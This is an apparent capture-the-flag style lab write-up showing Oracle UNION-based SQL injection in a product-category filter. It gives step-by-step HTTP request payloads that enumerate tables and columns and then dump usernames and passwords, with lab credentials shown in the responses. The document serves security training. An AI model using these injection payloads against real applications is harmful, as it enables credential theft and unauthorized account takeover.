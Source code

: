 To solve the lab, log in as the administrator user. 

Hint: On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual 


1. determine how many coloumns are in the current table:
> GET /filter?category='+UNION+SELECT+NULL,+NULL+FROM+all_tables--+- HTTP/1.1
response:
> HTTP/1.1 200 OK


2. determine how many of them support stroing values:
**request3**
> GET /filter?category='+UNION+SELECT+'test',+'test'+FROM+all_tables--+- HTTP/1.1
response:
> HTTP/1.1 200 OK

both fields support strings

3. find table names:
> GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+all_tables--+- HTTP/1.1
response:
> HTTP/1.1 200 OK
><th>USERS_BLXPRF</th>

4. find columns:
**request**
> GET /filter?category='+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns--+- HTTP/1.1
response:
><th>USERNAME_DEGMLB</th>
><th>PASSWORD_RROMTL</th>

5. combine all to a payload:
**request**
> GET /filter?category='+UNION+SELECT+USERNAME_DEGMLB,+PASSWORD_RROMTL+FROM+USERS_BLXPRF--+- HTTP/1.1
response:
>HTTP/1.1 200 OK
><tbody>
><tr>
><th>administrator</th>
><td>eq0spjmi30e7zgtlnsus</td>
><tr>
><th>carlos</th>
><td>3yqxy93nlg6b829u45uq</td>
></tr>
><tr>
><th>wiener</th>
><td>2622xpvib3h4s1czxfph</td>
></tr>
